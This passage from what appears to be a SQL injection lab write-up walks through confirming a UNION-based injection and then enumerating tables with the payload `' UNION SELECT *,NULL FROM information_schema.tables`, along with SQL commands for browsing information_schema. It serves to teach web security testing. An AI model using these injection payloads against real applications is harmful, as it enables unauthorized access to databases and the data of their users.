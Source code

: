 3. Let's now try adding another row of data to the result of the query using the `UNION` keyword.
![image](./Attachments/SQL-Lab9-3.png)
We now know that we can `UNION` data to the result of query.

4. Now, we will try some payloads for examining the database. From the cheatsheet, we know that non-Oracle databases have a database named information_schema which has a table named tables which contains information about all the tables. Payload: `' UNION SELECT *,NULL FROM information_schema.tables`
![image](./Attachments/SQL-Lab9-4.png)
Using the SQL Prompt, We can get information about the database's internals.
Commands:
`USE INFORMATION_SCHEMA;`
`SHOW TABLES;`